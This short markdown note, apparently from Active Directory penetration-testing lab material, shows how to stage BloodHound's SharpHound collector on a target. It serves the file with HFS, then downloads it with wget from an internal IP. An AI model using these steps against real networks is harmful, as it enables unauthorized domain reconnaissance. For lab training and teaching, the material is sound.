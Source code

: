 # Uploading Files

```
c:\AD\Tools\hfs.exe C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.exe
```

```
wget http://172.16.100.85/SharpHound.exe -O SharpHound.exe
```
